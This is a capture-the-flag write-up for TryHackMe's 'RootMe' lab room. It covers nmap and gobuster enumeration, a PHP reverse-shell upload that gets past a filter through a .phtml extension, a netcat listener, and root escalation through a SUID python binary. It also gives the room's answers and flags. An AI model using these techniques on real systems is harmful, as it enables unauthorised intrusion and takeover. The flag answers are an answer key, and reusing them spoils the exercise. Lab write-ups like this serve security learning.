

# ROOT-ME | TryHackMe Room

This write-up covers the completion of the ROOT-ME room on TryHackMe. Before starting this room, it was necessary to complete the OpenVPN room first as the task 1 says to complete the OpenVPN room.


# **OpenVPN Setup**
1. Completed the OpenVPN room: [https://tryhackme.com/room/openvpn](https://tryhackme.com/room/openvpn)
2. Launched the machine and copied the IP address
      

3. Connected to VPN using:
   ```bash
   sudo openvpn [filename.ovpn]

4. After visitng the Ip of the machine.
      

5. We completed the OpenVPN room.
      


# **ROOT ME Room**
## Initial Setup
- Started the machine and deployed it
- Ran initial nmap scan as root:
`nmap -Pn [IP]`
   
Found open ports: 22 and 80


## Directory Enumeration with Gobuster
- First I visited the web running at port 80
     
- Ran directory enumeration:
`gobuster dir -u [IP] -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

   
   Found /panel directory     


## File Upload Exploitation
- Discovered /panel allowed file uploads and I tried a dumy PHP file upload but it failed
   

- Prepared a PHP reverse shell:

`cp /usr/share/webshells/php/php-reverse-shell.php ~/[new filename].php`

- Modified local IP to VPN IP and changed ports
   

- Renamed file extension from .php to .phtml and then uplaoded to browser
   


## Gaining User Access
- Set up listener:
`nc -lnvp [port number]`
- After this I accessed the uploaded file to trigger the reverse shell
   

- Spawned interactive shell:
`python -c 'import pty;pty.spawn("/bin/bash")'`
- I found user flag:
`find / -type f -name user.txt 2>/dev/null`
- And then I retierved the flag
`cat /var/www/user.txt`
   


## Privilege Escalation to Root
- Found SUID binaries:
`find / -user root -perm /4000`
  
  Identified /usr/bin/python as potential vector

- I tried to get root shell using python shell:

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

- After getting the root shell, I retrieved root flag:
`cat /root/root.txt`
  


# **Answers:**
**Task 1**: Deploy the machine
1. Deploy the machine

   `No Answer`

**Task 2**: Reconnaissance
1. Scan the machine, how many ports are open? 

   `2`
2. What version of Apache is running?

   `2.4.29`
3. What service is running on port 22?

   `ssh`
5. Find directories on the web server using the GoBuster tool.

   `No answer`
6. What is the hidden directory?

   `/panel/`

**Task 3**: Getting a shell
1. Find a form to upload and get a reverse shell, and find the flag.

   user.txt

   `THM{y0u_g0t_a_sh3ll}`


**Task 4**: Privilege escalation
Escalate our privileges to root.

1. Search for files with SUID permission, which file is weird?

   `/usr/bin/python`

2. Find a form to escalate your privileges.

   `No answer`

3. root.txt

   `THM{pr1v1l3g3_3sc4l4t10n}`


